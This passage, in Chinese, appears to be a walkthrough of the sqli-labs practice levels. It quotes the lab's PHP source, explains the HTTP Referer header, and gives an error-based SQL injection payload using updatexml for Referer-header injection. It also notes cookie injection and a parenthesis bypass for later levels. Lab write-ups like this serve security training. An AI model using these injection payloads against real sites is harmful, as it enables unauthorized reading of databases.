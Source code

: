 ~~~php
			echo "<br><br>";
			echo '<img src="../images/flag.jpg" />';
			echo "<br>";
			}
		else
			{
			echo '<font color= "#0000ff" font size="3">';
			//echo "Try again looser";
			print_r(mysql_error());
			echo "</br>";			
			echo "</br>";
			echo '<img src="../images/slap.jpg"  />';	
			echo "</font>";  
			}

	}

?>
~~~

可以看到username 和 password都是有安全检查的，



这是个新的知识点了，referer头注入：

### referer

[Referer ](http://www.sojson.com/tag_referer.html)是 [ HTTP ](http://www.sojson.com/tag_http.html)请求`header` 的一部分，当浏览器（或者模拟浏览器行为）向`web` 服务器发送请求的时候，头信息里有包含 [ Referer ](http://www.sojson.com/tag_referer.html)。比如我在www.google.com 里有一个`www.baidu.com` 链接，那么点击这个`www.baidu.com` ，它的`header` 信息里就有：

  Referer=http://www.google.com

由此可以看出来吧。它就是表示一个来源。

简单来说，他就是标识改url的上一个url而已，不过其本身也有控制访问权限的作用，其和origin是又差别的，origin代表的是来源的主域名。

$insert="INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('',updatexml(1,concat(0x3a,database(),0x3a),1))#', '$IP')";

',updatexml(1,concat(0x3a,database(),0x3a),1))#

关键在于对这个的构造，如上就可以了。

## less 20

这个其实也不过是换成了cookie注入，不过buu那里好像有点问题，本地搭建的抓包抓不到就算了。。。

## less 21

这个是在cookie注入的情况下加入了 ) 的一个绕过

$sql="SELECT * FROM users WHERE username=('$cookee') LIMIT 0,1";

## less22
